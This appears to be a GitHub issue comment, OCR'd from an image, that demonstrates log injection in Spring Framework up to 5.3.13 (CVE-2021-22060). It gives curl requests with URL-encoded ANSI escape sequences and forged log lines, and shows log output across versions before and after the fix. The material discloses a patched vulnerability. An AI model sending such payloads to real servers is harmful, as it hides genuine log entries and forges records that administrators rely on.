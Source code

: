 ```
**Now with some ESC- and CSI-sequence examples, because spring-framework <= 5.3.13 has this vulnerability !**

1. example:
With %1B%5BJ (ESC [J == CSI sequence to erase display -- erase from start to cursor.) 
```
curl 'http://localhost:8080/api/path../data12345%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%1B%5BJsuffix'
```

wich spring-boot-starter-parent 2.5.7, I can create a crazy cleanPath where `[api/path../data1235`is missing completly:
```
2021-12-06 16:07:29.199  WARN 12956 --- [nio-8080-exec-3] o.s.w.s.r.ResourceHttpRequestHandler     : Path contains "../" after call to StringUtils#cleanPath: [suffix] 
```
  
with spring-boot-starter-parent 2.6.0, no translation anymore:
```
2021-12-06 16:16:30.511  WARN 13317 --- [nio-8080-exec-4] o.s.w.s.r.ResourceHttpRequestHandler     : Path contains "../" after call to StringUtils#cleanPath: [api/path../data12345%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%1B%5BJsuffix] 
```

2. example:<BR>
`CSI M` == Delete the indicated # of lines.<BR>
`%1B%5B1M` == `ESC [ 1M`  
```
curl 'http://localhost:8080/api/path../suffix%1B%5B1M2021-12-08%2013%3A59%3A37.932%20%20ERROR%20blahh%0anewline'
```
  
The real application logging output is hidden/missing with spring-framework 5.3.10 and 5.3.13 due to `ESC [ 1M`, but my injected string is still seen :-)
```
2021-12-08 13:59:37.932  ERROR blahh
newline]
```
  
Output with spring-framework 5.3.14 shows fix of [CVE-2021-22060](https://tanzu.vmware.com/security/cve-2021-22060) with mostly the complete call:
```
2021-12-09 13:54:29.920  WARN 9455 --- [nio-8080-exec-1] o.s.w.s.r.ResourceHttpRequestHandler     : "Path contains "../" after call to StringUtils#cleanPath: [api/path../suffix?[1M2021-12-08 13:59:37.932  ERROR blahh<EOL>newline]"
```
Why just "mostly"? Because ESC `%1B` is replaced with "?" instead of `<ESC>` as seen for CR `%0A` == `<EOL>`
  
  
Some more CSI examples:<BR>
```
       J   ED        Erase display (default: from cursor to end of display).
                     ESC [ 1 J: erase from start to cursor.
                     ESC [ 2 J: erase whole display.
                     ESC [ 3 J: erase whole display including scroll-back
                                buffer (since Linux 3.0).
       K   EL        Erase line (default: from cursor to end of line).<BR>
                     ESC [ 1 K: erase from start of line to cursor.<BR>
                     ESC [ 2 K: erase whole line.<BR>
```
as HTTP call:
```
curl 'http://localhost:8080/api/path../data12345%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%1B%5B2Jsuffix' 
curl 'http://localhost:8080/api/path../data%1B%5B1K' 